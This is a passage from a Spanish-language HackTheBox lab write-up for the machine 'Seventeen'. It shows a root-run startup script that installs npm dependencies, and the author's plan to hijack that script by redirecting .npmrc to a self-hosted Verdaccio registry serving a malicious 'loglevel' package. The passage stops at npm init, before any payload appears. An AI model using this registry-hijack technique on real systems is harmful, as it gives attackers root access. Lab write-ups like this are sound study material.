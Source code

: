 ```shell
kavi@seventeen:~$ sudo -l
[sudo] password for kavi: 
Matching Defaults entries for kavi on seventeen:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kavi may run the following commands on seventeen:
    (ALL) /opt/app/startup.sh
kavi@seventeen:/opt/app$ cat startup.sh 
#!/bin/bash

cd /opt/app

deps=('db-logger' 'loglevel')

for dep in ${deps[@]}; do
    /bin/echo "[=] Checking for $dep"
    o=$(/usr/bin/npm -l ls|/bin/grep $dep)

    if [[ "$o" != *"$dep"* ]]; then
        /bin/echo "[+] Installing $dep"
        /usr/bin/npm install $dep --silent
        /bin/chown root:root node_modules -R
    else
        /bin/echo "[+] $dep already installed"

    fi
done

/bin/echo "[+] Starting the app"
```
Vemos que este script instala las dependencias db-logger y loglevel, se podría hacer un archivo js malicioso para cuando se descargue y se ejecute nos ejecute comandos como root. Para eso tenemos que crearnos nuestro propio servicio de verdaccio y modificando el archivo /home/kavi/.npmrc podemos apuntar a nuestro servicio y así ejecutando el script podemos lograrlo. Primero creamos nuestro proyecto con npm.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Seventeen/exploits$ npm init            
This utility will walk you through creating a package.json file.
It only covers the most common items, and tries to guess sensible defaults.

See `npm help init` for definitive documentation on these fields
and exactly what they do.

Use `npm install <pkg>` afterwards to install a package and
save it as a dependency in the package.json file.

Press ^C at any time to quit.
package name: (exploits) loglevel
version: (1.0.0) 2.0.0
description: 
entry point: (index.js) 
test command: 
git repository: 
keywords: 
author: 
license: (ISC) 
About to write to /home/gu3ro/Desktop/guero/htb/Seventeen/exploits/package.json:

{
  "name": "loglevel",
  "version": "2.0.0",
  "description": "",
```